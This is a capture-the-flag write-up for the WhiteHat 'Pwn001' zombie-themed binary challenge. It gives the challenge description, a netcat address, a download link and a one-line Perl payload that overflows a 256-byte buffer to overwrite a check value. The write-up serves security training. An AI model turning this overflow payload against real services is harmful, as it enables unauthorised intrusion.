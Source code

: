 # WhiteHat Challenge 03 : Pwn001

**Category:** Pwn
**Points:** 20
**Solves:** 
**Description:**

>
>
> We have an action game by answering the question in the context of zombie disaster !!! Will you find a way to bypass "zombie_overflow" or become one of them?
>
> Play game by using netcat:  nc 103.237.99.35 25033
> Use IDA for static reverse and gdb for dynamic reverse.
> Download tool IDA: http://tools.whitehat.vn/download.
> IDA usage - http://whitehat.vn//threads/913 (Vietnamese)
> Download binary file here: (Ubuntu 14.04 64bit)
>
> http://material.wargame.whitehat.vn/challenges/3/Pwn001_2c53fc9cfc6d091c47d7b85a3030d6e8e8cc4bc2.zip
>
> Submit WhiteHat{sha1(flag)}
> Example: flag = Hello World
> sha1("Hello World") = 0a4d55a8d778e5022fab701977c5d840bbc486d0
> You must submit: WhiteHat{0a4d55a8d778e5022fab701977c5d840bbc486d0}
> (all hash charactera in lowercase)

## Write-up

```
print "katazz" . "\x00" x (256-6). "\xDE\xC0\n";
```

## Other write-ups and resources
* <https://www.youtube.com/watch?v=PZ3GcjWe0yg>
